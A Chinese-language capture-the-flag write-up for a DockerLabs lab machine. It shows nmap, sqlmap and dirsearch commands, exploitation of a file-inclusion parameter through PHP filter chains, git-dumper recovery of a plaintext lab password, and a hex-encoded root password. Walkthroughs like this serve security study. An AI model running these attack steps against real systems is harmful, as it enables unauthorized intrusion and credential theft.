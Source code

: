 ```yaml
---
title: "Dockerlabs-Report"
date: 2025-02-25
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Report  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-25 18:34 CST
Nmap scan report for 172.17.0.2
Host is up (0.000076s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 58:46:38:70:8c:d8:4a:89:93:07:b3:43:17:81:59:f1 (ECDSA)
|_  256 25:99:39:02:52:4b:80:3f:aa:a8:9a:d4:8e:9a:eb:10 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://realgob.dl/
3306/tcp open  mysql   MySQL 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
|   Thread ID: 8
|   Capabilities flags: 63486
|   Some Capabilities: LongColumnFlag, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, Support41Auth, IgnoreSigpipes, ConnectWithDatabase, SupportsTransactions, InteractiveClient, Speaks41ProtocolNew, FoundRows, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: SMf;1&jb.[aWoKfBUf~i
|_  Auth Plugin Name: mysql_native_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.08 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.89 seconds
```

将**realgob.dl**添加到**/etc/hosts**

## SQL injection

在**noticias.php**中发现存在**SQL**注入漏洞

```
[root@kali] /home/kali/Report  
❯ sqlmap -u "http://realgob.dl/noticias.php?id=1" -p id --dbs  
```

![](./images/image-169.png)

似乎并没有什么用，其中的密码也无法破解

## Dirsearch

```
[root@kali] /home/kali/Report  
❯ dirsearch -u realgob.dl -t 50 -i 200
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                     
                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Report/reports/_realgob.dl/_25-02-25_18-55-46.txt

Target: http://realgob.dl/

[18:55:46] Starting:                                                                                                                                        
[18:55:48] 200 - 2KB - /about.php                                        
[18:55:49] 200 - 467B  - /admin.php                                        
[18:55:52] 200 - 510B  - /api/                                             
[18:55:52] 200 - 510B  - /api/v1/                                          
[18:55:52] 200 - 500B  - /api/v2/                                          
[18:55:53] 200 - 475B  - /assets/                                          
[18:55:55] 200 - 0B  - /config.php                                       
[18:55:56] 200 - 521B  - /database/                                        
[18:55:59] 200 - 452B  - /images/                                          
[18:55:59] 200 - 504B  - /includes/                                        
[18:55:59] 200 - 22KB - /info.php                                         
[18:56:00] 200 - 0B  - /LICENSE                                          
[18:56:01] 200 - 1KB - /login.php                                        
[18:56:01] 200 - 475B  - /logs/                                            
[18:56:04] 200 - 0B  - /pages/                                           
[18:56:07] 200 - 0B  - /README.md                                        
[18:56:12] 200 - 484B  - /uploads/                                         
                                                                             
Task Completed                  
```

泄露了**phpinfo**

![](./images/image-168.png)

## FilterChains

来到**About**页面点击**Read More**，发现URL中出现了一个**?file=**参数

![](./images/image-165.png)

尝试设置为**/etc/passwd**，成功读取

![](./images/image-167.png)

并且可以使用**php://filter**过滤器

![](./images/image-170.png)

在**phpinfo**中发现存在**Oracle**，因此可以尝试使用**filter-chains**攻击

- [Synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator)

![](./images/image-171.png)

## Git-dumper

在**linpeas**输出中发现存在**git**泄露

![](./images/image-172.png)

```
[root@kali] /home/kali/Desktop  
❯ git-dumper http://realgob.dl/desarrollo/.git/ ./realgob.git
```

在其中一个提交中得到**adm**的密码，注意**不是hash！！**

![](./images/image-173.png)

![](./images/image-174.png)

```
adm:9fR8pLt@Q2uX7dM^sW3zE5bK8nQ@7pX
```

## Root

**adm**用户并没有特殊权限的命令，也找不到其他的可利用文件。

看了题解才知道，在**adm**目录的**bashrc**里面（这谁能知道？？？

![](./images/image-175.png)

使用**Cyberchef**进行十六进制转换

![](./images/image-176.png)

得到密码是：**dockerlabs4u**

![](./images/image-177.png)

## Summary

`www-data`：从网页上来看存在**SQL注入**和**任意文件读取**，配合**filterchains**甚至可以执行命令，从而反弹**shell**。

`user`：**git**泄露，查看提交记录得到用户的密码。

`Root`：这个就纯属脑筋急转弯了😓。
